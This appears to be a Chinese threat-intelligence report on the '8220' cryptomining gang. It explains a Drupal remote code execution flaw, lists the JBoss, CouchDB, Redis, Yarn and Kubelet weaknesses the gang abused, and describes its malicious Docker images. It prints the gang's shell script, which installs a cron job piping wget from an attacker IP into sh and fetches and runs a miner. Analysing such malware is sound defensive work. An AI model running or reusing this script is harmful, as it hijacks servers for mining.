 而Drupal的远程任意代码执行漏洞是由于Drupal对表单的渲染引起的。为了能够在表单渲染对过程中动态修改数据，Drupal引入了“Drupal Render API”机制[7]，“Drupal Render API”对于#会进行特殊处理，其中#pre_render在render之前操作数组，#post_render接收render的结果并在其添加包装，#lazy_builder用于在render过程的最后添加元素。由于对于部分#属性数组值，Drupal会通过call_user_func的方式进行处理，导致任意代码执行。漏洞验证POC[8]，利用此POC可快速验证Drupal是否存在该漏洞。

“8220挖矿团伙”利用此漏洞下载并执行挖矿程序。其中的Shell恶意脚本代码将wget -q http://192.99.142.235:8220/logo4.jpg -O – | sh命令写入任务计划，实现对服务器的持续感染。同时从192.99.142.235:8220下载配置文件3.json和挖矿程序rig，分别保存为config.json和sustes，最后利用nohup命令在后台运行挖矿。

```
...
crontab -r || true &amp;&amp; \
echo "* * * * * wget -q http://192.99.142.235:8220/logo4.jpg -O - | sh" &gt;&gt; /tmp/cron || true &amp;&amp; \
crontab /tmp/cron || true &amp;&amp; \
rm -rf /tmp/cron || true &amp;&amp; \
wget -O /var/tmp/config.json http://192.99.142.235:8220/3.json
wget -O /var/tmp/sustes http://192.99.142.235:8220/rig
chmod 777 /var/tmp/sustes
cd /var/tmp
proc=`grep -c ^processor /proc/cpuinfo`
cores=$((($proc+1)/2))
num=$(($cores*3))
/sbin/sysctl -w vm.nr_hugepages=`$num`
nohup ./sustes -c config.json -t `echo $cores` &gt;/dev/null &amp;
...
```

### 其它漏洞利用列表
<td valign="top" width="102">**服务**</td><td valign="top" width="466">**利用说明**</td>
<td width="102">JBosss</td><td width="466">利用JBosss反序列化命令执行漏洞（编号CVE-2017-12149<sup>[9]</sup>），漏洞影响5.X和6.X版本。利用此漏洞可在未经任何身份验证的服务器主机上执行任意代码。”8220挖矿团伙”利用此漏洞下载并执行PowerShell脚本，进行挖矿活动。</td>
<td width="102">Couchdb</td><td width="466">利用Couchdb的组合漏洞（编号CVE-2017-12635[10], CVE–2017–12636<sup>[11]</sup>）。利用CVE-2017-12635漏洞，可以给自身添加管理员权限；利用CVE-2017-12636，可以实现远程任意代码执行。”8220挖矿团伙”利用这两个漏洞完成对目标的攻击，进行挖矿活动。</td>
<td width="102">Redis</td><td width="466">Redis默认情况下运行在0.0.0.0:6379上。若Redis服务暴露在公网，同时没有开启认证，则攻击者可以在未授权的情况下访问Redis服务，执行恶意操作。”8220挖矿团伙”通过网络扫描工具，发现存在该漏洞的主机，并进行攻击，实现挖矿活动。</td>
<td width="102">Hadoop Yarn</td><td width="466">Yarn的ResourceManager UI默认运行在0.0.0.0:8088端口上，允许用户通过接口进行相关的应用创建、任务提交执行等操作。若该服务暴露在公网，同时没有开启认证，则攻击者可以在未授权访问的情况下执行恶意操作。”8220挖矿团伙”利用此漏洞进行远程命令执行，实现挖矿活动。</td>
<td width="102">Kubernetes</td><td width="466">Kubelet默认开启10255和10250端口，攻击者可以在未授权的情况下执行恶意操作。”8220挖矿团伙”利用该漏洞，远程执行下载脚本的命令，实现在容器中的挖矿活动。</td>

### Docker镜像利用

360威胁情报中心还发现国外一篇关于Docker Hub镜像的安全研究报告[12]中，疑似出现“8220挖矿团伙”的身影。报告指出，从2017年05月注册账号开始，到2018年05月删除账号结束，该账号陆续上传了17个恶意docker镜像，镜像下载量达到500万次以上。这些镜像的功能大致可分为如下四类：
1. 反弹主机的SHELL
1. 向主机中添加SSH公钥
1. 在主机中添加任务计划
1. 利用镜像完成挖矿
通过对报告中出现的钱包信息，C2信息等，结合360威胁情报中心数据平台关联的同一时间段信息，我们确定此账号为“8220挖矿团伙”所拥有。更加证实了我们关于这是一支专业挖矿团伙的判定。

